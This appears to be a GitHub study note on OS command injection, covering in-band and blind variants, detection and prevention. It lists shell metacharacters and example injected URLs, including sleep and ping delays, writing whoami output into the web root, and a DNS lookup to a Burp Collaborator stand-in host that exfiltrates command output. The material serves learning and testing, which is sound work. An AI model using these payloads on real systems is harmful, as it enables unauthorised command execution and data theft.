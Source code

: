 
Command injection is a vulnerability where a attacker can run commands on a host operating system via a vulnerable application

## Types of command injection vulnerabilities -

#### 1. In-band command injection - 

  Here we receive the response of the command sent via http response.
  
How to detect ?

> Use **shell metacharacters** - `&` `;`  `Newline (0x0a or \n)` `&&`  `|`  `|| `  `'` `$` 
  

  
#### 2. Blind  command injection - 

  Here it does not return the output of the command within the HTTP response. 

How to detect ?

> - Trigger a **time-delay** using `ping` or `sleep` command 
> eg -
> 
>   `https://vulnerable-website/endpoint?parameter=x||ping -c 10+127.0.0.1||`  
>        `https://vulnerable-website/endpoint?parameter=x & sleep 10 &`

>
> - Output the **response of the command to web root** and access the file directly via web browser. 
> eg - `https://vulnerable-website/endpoint?parameter=||whoami>/var/www/images/output.txt||`

> - Open an **Out-of Band channel to a server you control** like Burp collaborator.
> eg - `https://vulnerable-website/endpointparameter=x||nslookup+burp.collaborator.address||`
> 
> TIP - Exfiltrate the output of your command 
> 
> ```https://vulnerable-website/endpointparameter=||nslookup+`whoami`.burp.collaborator.address||```

#### Some vulnearble functions - 

```

-   exec
-   command
-   execute
-   ping
-   query
-   jump
-   code
-   reg
-   do
-   func
-   arg
-   option
-   load
-   process
-   step
-   read
-   function
-   req
-   feature
-   exe
-   payload
-   run
-   print
```



## Prevent -
- Avoid using shell execution functions. If unavoidable, limit their use to very specific use cases.
- Perform proper input validation when taking user input into a shell execution command.
- Use a safe API when accepting user input into the application.
- Escape special characters in the case where a safe API is not available.

----------------------------------------

## LAB 1 - OS command injection, simple case


